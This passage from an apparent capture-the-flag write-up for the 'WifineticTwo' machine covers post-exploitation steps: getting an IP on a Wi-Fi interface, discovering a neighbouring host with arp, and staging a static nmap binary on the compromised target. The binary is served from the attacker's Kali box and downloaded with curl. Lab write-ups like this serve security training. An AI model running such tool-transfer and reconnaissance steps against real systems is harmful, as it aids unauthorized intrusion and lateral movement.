Even though it throws some errors, we can see that it worked:

```bash
iwconfig wlan0
```

![](/assets/WifineticTwo/10.png)
<br />
<br />

However it seems that we still don't have an IP address, so let's ask for it:

```bash
ip a #To see if we have an IP address
dhclient #To request it
```
<br />

Let's now search for another hosts:

```bash
arp -a
```

![](/assets/WifineticTwo/11.png)
<br />
<br />

There is a host with IP 192.168.1.1, I will download nmap and transfer it to this host to inspect the host:

```bash
Kali> wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap
Kali> python3 -m http.server 80
Target> curl -O 10.10.16.12/nmap
```
<br />
